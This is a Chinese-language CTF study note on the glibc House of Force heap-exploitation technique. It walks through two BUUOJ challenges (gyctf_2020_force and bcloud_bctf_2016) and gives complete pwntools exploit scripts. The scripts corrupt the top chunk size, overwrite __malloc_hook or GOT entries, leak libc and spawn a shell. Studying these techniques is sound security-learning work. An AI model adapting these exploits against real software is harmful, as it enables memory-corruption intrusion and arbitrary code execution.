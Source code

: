 # 优秀的学习文章
[关于house of force的学习总结 | ZIKH26](https://www.cnblogs.com/ZIKH26/articles/16533388.html)


# House Of Force利用
**libc-2.23和libc-2.27**
我的理解，
通过top chunk的分割去"逼近"到target_addr。

House Of Force的利用确实不大难，学习后能对堆的布局有更深刻的认识。

主要是这个利用条件太苛刻了：
1.能改top chunk的size位为-1（绕过remainder最大块检测）
2.能得到topchunk的地址（计算request_size）
3.malloc的size不受限制（一般很大）

`request_size = target_addr - 0x20(32位:0x10) - topchunk_addr`


# 例题

## gyctf_2020_force
[题目](https://buuoj.cn/challenges#gyctf_2020_force)

学习到的点:
1.申请超大chunk使得mmap分配，vmmap查看发现分配到了libc里面，所以能得到与libc的偏移，从而泄露libc。
2.HOF本质是对topchunk布局，利用申请的第一个chunk都是topchunk_addr-first_malloc_size处的地方来实现任意地址写。
3.又熟悉了调试方法，学会了`vmmap`查看整体内存的分配情况。
4.realloc调整下栈帧，根本没必要下断点进calloc看，直接爆破几个即可，+2,+4,+6...

Exp: (远程的,本地的realloc没调对。。)
```python
leak = add(0x200000,b'a')

# offset = 0x200FF0
libcbase = leak + 0x200FF0
info_addr("libcbase",libcbase)

ogs = [0x45216,0x4526a,0xf02a4,0xf1147]
og = libcbase + ogs[1]
info_addr("one_gadget",og)
malloc = libcbase + libc.sym['__malloc_hook']
realloc = libcbase + libc.sym['realloc']

# house of force
pl = p64(0)*3 + p64(0xffffffffffffffff)
leak = add(0x10,pl)
topchunk = leak + 0x10
info_addr("topchunk",topchunk)

# request_size = target_addr - 0x20 - victim
request_size = malloc - 0x20 - topchunk - 0x10
info_addr("size!!!",request_size)
add(request_size,b'aaaa')
addr = add(0x20,b'a'*8+p64(og)+p64(realloc+12))
#addr = add(0x20,b'a'*16+p64(og))

info_addr("realloc_hook",malloc-0x8)
info_addr("addr",addr)

p.sendlineafter('2:puts\n',str(1))
p.sendlineafter('size\n',str(0xFF))

p.interactive()
```
![image](HouseOfForce\images\3092507-20240710203101058-1718997373.png)

## bcloud_bctf_2016
[题目](https://buuoj.cn/challenges#bcloud_bctf_2016)

**好题！**



32位的堆，活久见。
emmm，漏洞点真不好找。
在输入name这里：
![image](HouseOfForce\images\3092507-20240711163712032-1569917762.png)

**strcpy**！！！会多拷贝一个`b'\x00'`空字节

这里调试看，
strcpy之前的堆布局
![image](HouseOfForce\images\3092507-20240711164826563-928621703.png)

我们填满0x40，strcpy后的堆布局
![image](HouseOfForce\images\3092507-20240711164945576-844668097.png)

可以看到一个off-by-null修改了topchunk的size
而且由于紧接着打印的是堆中的内容，而根据堆的布局可以看到填满后是能接着泄露`0x08f9f008`的，也就是topchunk的prev_size段。（printf遇空字节终止）
![image](HouseOfForce\images\3092507-20240711165606387-95576426.png)

同样的，后面输入Organization和Host的时候也存在溢出。
我们还是都填满0x40来看堆布局
![image](HouseOfForce\images\3092507-20240711170329244-304448501.png)

都是因为strcpy时，栈中没有`b'\x00'`来截断，导致溢出。

所以我们现在：
1. 可以控制topchunk的size
2. 知道topchunk的地址
3. malloc大小无限制
所以考虑 House Of Force，将p_content的内存空间申请出来。
漏洞利用思路：
这样就可以在bss的指针段写入free_got,puts_got这些，**然后edit把free_got的值改为puts_plt，然后free(puts_got)泄露libc**，再把free_got改为system，最后布置一个/bin/sh即可。

但还是有些细节，比如不能edit(0)（topchunk的size有问题）
然后就是不知道为什么本地打不通，但能打通远程。。。
Exp:
```python
free_got = elf.got['free']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

sa("name:\n",b'a'*0x40)

ru(b'a'*0x40)
leak = leak_address()
info_addr("leak",leak)
topchunk = leak + 0xd0

sa("Org:\n",b'b'*0x40)
sla("Host:\n",p64(0xffffffff))
info_addr("topchunk",topchunk)

target = 0x804B120 # p_content
add(target-0x10-topchunk,b"0")
add(0x20,p32(0)+p32(free_got)+p32(puts_got)+p32(target+0x10)+b'/bin/sh\x00')
edit(1,p32(puts_plt)) # free_got -> puts_plt
free(2) # puts(puts_got)
leak = leak_address()
info_addr("puts_addr",leak)

libcbase = leak - libc.sym['puts']
info_addr("libcbase",libcbase)
system = libcbase + libc.sym['system']

edit(1,p32(system))
free(3)


p.interactive()
```
本地：
![image](HouseOfForce\images\3092507-20240711175903765-407465516.png)

远程：
![image](HouseOfForce\images\3092507-20240711175458506-17811029.png)